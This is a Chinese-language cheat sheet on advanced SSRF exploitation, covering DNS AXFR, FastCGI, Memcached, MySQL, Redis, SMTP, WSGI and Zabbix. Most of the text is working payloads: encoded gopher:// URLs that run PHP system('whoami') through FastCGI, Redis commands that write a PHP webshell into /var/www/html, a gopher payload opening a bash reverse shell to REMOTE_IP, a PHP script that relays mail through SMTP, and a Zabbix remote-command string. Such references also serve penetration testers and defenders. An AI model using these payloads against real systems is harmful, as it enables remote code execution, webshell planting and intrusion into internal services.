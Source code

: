 # SSRF 高级利用技术

> 某些服务（如Redis、Elasticsearch）在直接访问时允许未经身份验证的数据写入或命令执行。攻击者可以利用SSRF与这些服务交互，注入webshell等恶意负载或操纵应用程序状态。

## 目录

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#mysql)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [参考资料](#参考资料)

## DNS AXFR

查询内部DNS解析器以触发完整区域传输（**AXFR**）并泄露子域列表。

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

`example.lab`的payload示例：`gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```

## FastCGI

需要知道服务器上PHP文件的完整路径，默认利用使用`/usr/share/php/PEAR.php`。

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```

## Memcached

Memcached默认通过11211端口通信。虽然它主要用于存储序列化数据以提高应用程序性能，但在反序列化这些数据时可能会出现漏洞。

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL用户不应设置密码保护。

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%00%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis是一个将所有数据存储在内存中的数据库系统

攻击者将Redis的转储目录更改为Web服务器的文档根目录(`/var/www/html`)，并将转储文件重命名为`file.php`，确保在保存数据库时生成PHP文件。然后，他们创建一个包含webshell代码的Redis键(`mykey`)，通过HTTP GET参数实现远程命令执行。最后，`SAVE`命令强制Redis将当前内存中的数据库写入磁盘，从而在`/var/www/html/file.php`创建恶意webshell。

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* 使用`dict://`获取webshell

    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
    dict://127.0.0.1:6379/SAVE
    ```

* 使用`gopher://`获取PHP反向shell

    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

恶意行为者可以制作`gopher://` URL来操作内部系统上的低级协议（如HTTP或SMTP）。

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

以下PHP脚本可用于生成将重定向到`gopher://`负载的页面。

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```

## WSGI

使用Gopher协议进行利用，完整利用脚本可在[wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)获取。

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| 头部      |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 字节)  | 0 (%00)     |
| datasize  | (2 字节)  | 26 (%1A%00) |
| modifier2 | (1 字节)  | 0 (%00)     |

| 变量 (UWSGI_FILE) |           |    |                |
|-------------------|-----------|----|----------------|
| 键长度            | (2 字节)  | 10 | (%0A%00)       |
| 键数据            | (m 字节)  |    | UWSGI_FILE     |
| 值长度            | (2 字节)  | 12 | (%0C%00)       |
| 值数据            | (n 字节)  |    | /tmp/test.py   |

## Zabbix

如果在Zabbix Agent配置中启用了`EnableRemoteCommands=1`，则允许执行远程命令。

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```

## 参考资料

* [SSRFmap - 引入AXFR模块 - Swissky - 2024年6月13日](https://swisskyrepo.github.io/SSRFmap-axfr/)
* [我如何将Jira中的SSRF转换为XSS - Ashish Kunwar - 2018年6月1日](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
* [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - 2024年4月12日](https://vozec.fr/writeups/pong-fcsc2024-en/)
* [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - 2024年4月13日](https://mizu.re/post/pong)
